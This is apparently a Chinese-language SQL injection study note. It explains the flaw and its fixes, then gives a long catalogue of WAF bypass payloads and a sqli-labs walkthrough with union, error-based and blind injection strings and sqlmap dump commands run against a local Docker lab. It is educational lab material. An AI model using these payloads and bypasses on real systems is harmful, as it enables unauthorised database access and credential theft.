




## 1. 概述

**漏洞描述**

​	Web程序代码中对于用户提交的参数未做过滤，被放到SQL语句中执行，导致参数中的特殊字符打破了 SQL 语句原有逻辑，黑客可以利用该漏洞执行任意 SQL 语句，如查询数据、下载数据、写入 webshell 、执行系统命令以及绕过登录限制等。

**漏洞存在条件**

- 参数用户可控。
- 参数带入数据库查询。

**测试方法**

​	在发现有可控参数的地方使用 sqlmap 进行 SQL 注入的检查或者利用，也可以使用其他的 SQL 注入工具，简单点的可以手工测试，利用单引号、and1=1 和 and 1=2 以及字符型注入进行判断。

**修复方法**

​	在代码层最佳的防御SQL注入的手段是SQL语句的**预编译和绑定变量**。

​	（1）所有的查询语句都使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到 SQL 语句中。当前几乎所有的数据库系统都提供了参数化 SQL 语句执行接口，使用此接口可以非常有效的防止SQL注入攻击。

​	（2）对进入数据库的特殊字符（ ' <>&*; 等）进行转义处理，或编码转换。

​	（3）确认每种数据的类型，比如数字型的数据就必须是数字，数据库中的存储字段必须对应为 int 型。

​	（4）数据长度应该严格规定，能在一定程度上防止比较长的SQL 注入语句无法正确执行。 

​	（5）网站每个数据层的编码统一，建议全部使用 UTF-8 编码，上下层编码不一致有可能导致一些过滤模型被绕过。 

​	（6）严格限制网站用户的数据库的操作权限，给此用户提供仅仅能够满足其工作的权限，从而最大限度的减少注入攻击 对数据库的危害。 

​	（7）避免网站显示 SQL 错误信息，比如类型错误、字段不匹配等，防止攻击者利用这些错误信息进行一些判断。


### 1.1 MySQL相关知识

​	在**mysql5**版本以后，存在一个数据库为`information_schema`，在这个库里面，有三个重要的表：`columns`，`tables`，`SCHEMATA`表，在`SCHEMATA`表中的字段`SCHEMA_NAME`存放着数据库的信息。`tables`表中`TABLE_SCHEMA`和`TABLE_NAME`分别记录库名和表名。`columns`存储该用户创建的所有数据库的库名、表名和字段名。

#### 1.1.1 Navicat连接Docker容器内MySQL

> 有这个需求的原因是我太懒了，因为是用的docker开的sqli labs环境，又不想本地再配MySQL环境，因此干脆直接利用了。

```bash
$ docker run -dt --name sqli-labs -p 8888:80 -p 3307:3306 -e MYSQL_ROOT_PASSWORD=root acgpiano/sqli-labs:latest
```

这里需要给MySQL开一个端口映射，我这里给的是`3307`端口。

```bash
$ docker exec -it sqli-labs /bin/bash
$ mysql
```

接下来将host修改为`%`即可。

```sql
select host,user from user where user='root';
FLUSH PRIVILEGES;
```




### 1.2 判断是否存在注入

```sql
id=1 and 1=1
id=1 and 1=2
id=1 or 1=1
id='1'or'1'='1'
id="1"or"1"="1"
```

**有回显**：页面有数据信息返回。

**无回显**：输入不同语句，页面无任何变化。


### 1.3 SQL注释符

`#`：单行注释，常编码为%23。

`--空格`：单行注释，注意后面有个空格。

`/**/`：多行注释，至少存在两处的注入，也常用来作为空格绕过。


### 1.4 SQL注入分类

按注入手法来分：**联合查询、堆叠查询、布尔型、报错型、基于时间延迟**。

按请求类型来分：**GET注入、POST注入、COOKIE注入。**

按注入数据类型来分：**int型、string型、like型**


#### 1.4.1 报错注入

**XPATH报错注入**

`updatexml（XML_document，XPath_string，new_value）`、`extractvalue（XML_document，xpath_string）`，XPATH的格式形如`/test`，如果XPATH出现格式错误，则会爆出XPATH语法错误。

**floor()函数报错**

```sql
select count(*),concat('x',floor(rand(0)*2))x from information_schema.tables group by x
```

`rand(0)`的重复计算是固定的，会随机生成一个[0,1]的小数，`rand(0)*2`则生成[0,2]的数，`floor()`函数是向下取整，即最后结果为0或1。我们运行一下看看。

```sql
select floor(rand(0)*2) from information_schema.tables limit 0,8;
```



可以发现这里`floor(rand(0)*2)`的值是固定的。

接下来说一下`group by`的原理，`group by`在执行时，会依次取出查询表中的记录创建一个临时表，`group by`的对象就是该临时表的主键，如果临时表中出现了该主键，则该值加一，若不存在则**插入**。再来看这个SQL语句。

```sql
select count(*),concat('x',floor(rand(0)*2))x from information_schema.tables group by x
```

其键必然为`x1`或者`x0`，那么应该只会值增加呀，为什么会报错呢？

这里有个重要特性：当`group by`和`rand()`同时使用时，若该临时表中没有主键，则插入前`rand()`会再执行一次。

那么我们来推断一下，第一次执行，`key`应该为`x0`，但是`x0`不存在，因此`rand(0)`又计算了一遍，最终第一次执行结果为`x1`。

第二次执行，这时候`key`应该为`x1`，已存在，则值加一即可。

第三次执行，这时候key应该为`x0`，不存在，`rand(0)`重新计算一遍，最终应该插入的`key`为`x1`，这里就出了问题了，它会直接插入，从而导致主键重复报错，这就是该报错原理。



**优化方案**

学习的[这篇文章](https://www.freebuf.com/articles/web/257881.html)，将`rand(0)`改为了`rand(14)`，运行一下看看。

```sql
mysql> select floor(rand(14)*2) from information_schema.tables limit 0,8;
+-------------------+
| floor(rand(14)*2) |
+-------------------+
|                 1 |
|                 0 |
|                 1 |
|                 0 |
|                 0 |
|                 0 |
|                 1 |
|                 1 |
+-------------------+
8 rows in set (0.00 sec)
```

这里只需要两条数据即可报错，但是如果只有一条数据`floor()`报错注入就不能用了，因为一条数据没办法重复。


## 2. SQL注入绕过


### 2.1 空格字符绕过

`%a0`：空格

`%09`：TAB键（水平）

`%0a`：新建一行

`%0c`：新的一页

`%0d`：return功能

`%0b`：TAB键（垂直）

`%00`：空字符

`/**/`：替换空格

`/*!*/`：内联注释


### 2.2 大小写绕过

```sql
union select -> UniOn SelEcT
```


### 2.3 浮点数绕过

```sql
select * from users where id=8E0union select 1,2,3,4;
select * from users where id=8.0union select 1,2,3,4;
```


### 2.4 NULL绕过

`\N`代表NULL


### 2.5 引号绕过

```sql
select * from users where id="1" #双引号绕过
select * from users where username=0x61646D696E; # 字符串转换为16进制
select * from users where id=-1 union select 1,2,(select group_concat(column_name)
from information_schema.columns where TABLE_NAME='users' limit 1),4; # 如果开启gpc，整数型也可以用十六进制绕过
```


### 2.6 添加库名绕过

```sql
select * from users where id=-1 union select 1,2,3,4 from users;
select * from users where id=-1 union select 1,2,3,4 from test.users;
```


### 2.7 去重复绕过

在 mysql 查询可以使用 distinct 去除查询的重复值。可以利用这点突破waf 拦截。

```sql
select * from users where id=-1 union distinct select 1,2,3,4 from users;
select * from users where id=-1 union distinct select 1,2,3,version() fromusers;
```


### 2.8 反引号绕过

字段加反引号可以绕过一些WAF拦截。

```sql
select * from users where id=-1 union select 1,2,3,4 from `test.users`;
```


### 2.9 语言特性绕过

在 php 语言中 id=1&id=2 后面的值会自动覆盖前面的值，不同的语言有不同的特性。可以利用这点绕过一些 waf 的拦截。

|               服务器中间件                |          解析结果          |       举例说明       |
| :---------------------------------------: | :------------------------: | :------------------: |
|                ASP.NET/IIS                | 所有出现的参数值用逗号连接 |    color=red,blue    |
|                  ASP/IIS                  |  所有出现的参数用逗号连接  |    color=red,blue    |
|                PHP/Apache                 |    仅最后一次出现参数值    |      color=blue      |
|                 PHP/Zeus                  |    仅最后一次出现参数值    |      color=blue      |
|         JSP,Servlet/Apache Tomcat         |     仅第一次出现参数值     |      color=red       |
| JSP,Servlet/Oracle Application Server 10g |     仅第一次出现参数值     |      color=red       |
|             JSP,Servlet/Jetty             |     仅第一次出现参数值     |      color=red       |
|             IBM Lotus Domino              |    仅最后一次出现参数值    |      color=blue      |
|              IBM HTTP Server              |     仅第一次出现参数值     |      color=red       |
|         mod_perl,libapreq2/Apache         |     仅第一次出现参数值     |      color=red       |
|              Perl CGI/Apache              |     仅第一次出现参数值     |      color=red       |
|          mod_wsgi(Python)/Apache          |     仅第一次出现参数值     |      color=red       |
|                Python/Zope                |         转化为List         | color=['red','blue'] |


### 2.10 逗号绕过

`substr`

```sql
select(substr(database() from 1 for 1);
```

`mid`

```sql
select mid(database() from 1 for 1);
```

`join`

```sql
union select * from 1,2
union select * from (select 1)a join (select 2)b
```

`like`

```sql
select user() like '%r%';
```

`offset`

```sql
limit 1 offset 0
```


### 2.11 or and xor not绕过

`&&`等价于and

`||`等价于or

`!`等价于not

`|`等价于xor


### 2.12 ASCII字符对比绕过

```sql
select * from users where id=1 and ascii(substring(user(),1,1))=114; # char(114)='r'
```


### 2.13 等号绕过

```sql
ascii(substring(user(),1,1))<115; # > <
select substring(user(),1,1)like 'r%'; #like rlike
select user() regexp '^r'; # regexp
```


### 2.14 双写绕过

```sql
uniunionon seleselectct
```


### 2.15 二次编码绕过

`-1 union select 1,2,3,4# `

第一次编码：

`%2d%31%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%31%2c%32%2c%33%2c%34%23 `

第二次编码：

`%25%32%64%25%33%31%25%32%30%25%37%35%25%36%65%25%36%39%25%36%66%25%36%65%25%32%30%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%33%31%25%32%63%25%33%32%25%32%63%25%33%33%25%32%63%25%33%34%25%32%33`


### 2.16 参数拆分绕过

对于a=[input1]&b=[input2] 可以将参数 a 和 b 拼接在 SQL 语句中，但是过滤了`union select`，可以使用参数拆分

```sql
-1'union/*&username=*/select 1,user(),3,4--+
```


### 2.17 生僻函数绕过

```sql
select polygon((select * from (select * from (select @@version) f) x)); # polygon()替换updatexml()
```


### 2.18 分块传输绕过

​	如果在 http 的消息头里 Transfer-Encoding 为 chunked，那么就是使用chunk编码方式。

​	接下来会发送数量未知的块，每一个块的开头都有一个十六进制的数,表明这个块的大小，然后接 CRLF("\r\n")。然后是数据本身，数据结束后，还会有CRLF("\r\n")两个字符。有一些实现中，块大小的十六进制数和CRLF 之间可以有空格，最后一块大小为0，表示数据发送结束。


### 2.19 信任白名单绕过

WAF会自带一些文件白名单，可以利用白名单绕过

```sql
/phpmyadmin?name=%27%20union%20select%201,user()--+&submit=1

```


### 2.20 pipline绕过

​	http 协议是由 tcp 协议封装而来，当浏览器发起一个 http 请求时，浏览器先和服务器建立起连接 tcp 连接，然后发送 http 数据包（即我们用burpsuite 截获的数据），其中包含了一个 Connection 字段，一般值为 close，Apache 等容器根据这个字段决定是保持该 tcp 连接或是断开。当发送的内容太大，超过一个http 包容量，需要分多次发送时，值会变成 keep-alive，即本次发起的http 请求所建立的tcp连接不断开，直到所发送内容结束 Connection 为 close 为止。

​	用 burpsuite 抓包提交，复制整个包信息放在第一个包最后，把第一个包close 改成 keep-alive 把 brupsuite 自动更新 Content-Length 勾去掉，有些WAF不会对第一个包的参数进行检测。


### 2.21 利用multipart/form-data绕过

​	multipart/form-data 表示该数据被编码为一条消息，页上的每个控件对应消息中的一个部分。所以，当 waf 没有规则匹配该协议传输的数据时可被绕过。


### 2.22 order by 绕过

```sql
select * from users where id=1 into @a,@b,@c,@d; # 替代order by猜解字段数
```


### 2.23 修改请求方式绕过

```php
<?php
echo $_REQUEST['id'];
?>
```

可以更改请求方式尝试绕过。


### 2.24 大量字符绕过

```sql
id=1 and (select 1)=(select 0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)/*!union*//*!select*/1,user()
```


### 2.25 花括号绕过

```sql
select 1,2 union select{x 1},user(); # 花括号左边是注释的内容
```


### 2.26 union select绕过

```sql
sel<>ect # 程序过滤<>为空 脚本处理
sele/**/ct # 程序过滤/**/为空
/*!%53eLEct*/ # url 编码与内联注释
se%0blect # 使用空格绕过
sele%ct # 使用百分号绕过
%53eLEct # 编码绕过
uNIoN sELecT 1,2
union all select 1,2
union DISTINCT select 1,2
null+UNION+SELECT+1,2
/*!union*//*!select*/1,2
union/**/select/**/1,2
and(select 1)=(Select 0xA*1000)/*!uNIOn*//*!SeLECt*/ 1,user()
/*!50000union*//*!50000select*/1,2
/*!40000union*//*!40000select*/1,2
%0aunion%0aselect 1,2
%250aunion%250aselect 1,2
%09union%09select 1,2
%0caunion%0cselect 1,2
%0daunion%0dselect 1,2
%0baunion%0bselect 1,2
%0d%0aunion%0d%0aselect 1,2
--+%0d%0aunion--+%0d%0aselect--+%0d%0a1,--+%0d%0a2
/*!12345union*//*!12345select*/1,2;
/*中文*/union/*中文*/select/*中文*/1,2;
/* */union/* */select/ */1,2;
/*!union*//*!00000all*//*!00000select*/1,2
```


## 3. sqli-labs通关

这里跟着[国光佬](https://www.sqlsec.com/2020/05/sqlilabs.html)学习

### 3.1 准备工作

**sqli-labs环境搭建**

```bash
docker pull acgpiano/sqli-labs
docker run -dt --name sqli-labs -p 8888:80 acgpiano/sqli-labs:latest
```

中间可能报错，只需要关闭代理就行。

```bash
Error response from daemon: Head "https://registry-1.docker.io/v2/acgpiano/sqli-labs/manifests/latest": Get "https://auth.docker.io/token?account=squarehhh&scope=repository%3Aacgpiano%2Fsqli-labs%3Apull&service=registry.docker.io": EOF
```

访问网页，环境搭建完毕。



### 3.2 Less 1-20

#### 3.2.1 Less-1

```php
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

if true
  	"hahahaha"
else 
	print_r(mysql_error());  
```

**联合注入**

手工

```sql
?id=-1' union select 1,2,(select group_concat(schema_name) from information_schema.schemata)%23 # 查库
?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema="security")%23 # 查表
?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name="users")%23 # 查字段
?id=-1' union select 1,2,(select group_concat(username,password SEPARATOR 0x3c62723e) from users)%23 # 0x3c62723e=<br>，即按换行分割
```

sqlmap

```bash
$ python sqlmap.py -u "http://localhost:8888/Less-1/?id=1" --technique=U -v 3 -D security -T users --dump --batch
```

**报错注入**

手工

```sql
?id=1'and updatexml(1,concat(0x7e,(select concat(username,password) from users limit 0,1),0x7e),1)%23
?id=1'and extractvalue(1,concat(0x7e,(select concat(username,password) from users limit 0,1),0x7e))%23
?id=1'and (select 1 from (select count(*),concat((select concat(username,password) from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```

sqlmap

```bash
$ python sqlmap.py -u "http://localhost:8888/Less-1/?id=1" --technique=E -v 3 -D security -T users --dump --batch
```

**布尔盲注**

手工

```sql
?id=1'and ascii(substr((select concat(username,password) from users limit 0,1),1,1))>67 %23 # 有回显
?id=1'and ascii(substr((select concat(username,password) from users limit 0,1),1,1))>68 %23 # 无回显
```

sqlmap

```bash
$ python sqlmap.py -u "http://localhost:8888/Less-1/?id=1" --technique=B -v 3 -D security -T users --dump --batch
```

**时间盲注**

手工

```sql
?id=1'and if(ascii(substr((select concat(username,password) from users limit 0,1),1,1))>68,1,sleep(5)) %23
```

sqlmap

```bash
$ python sqlmap.py -u "http://localhost:8888/Less-1/?id=1" --technique=T -v 3 -D security -T users --dump --batch
```

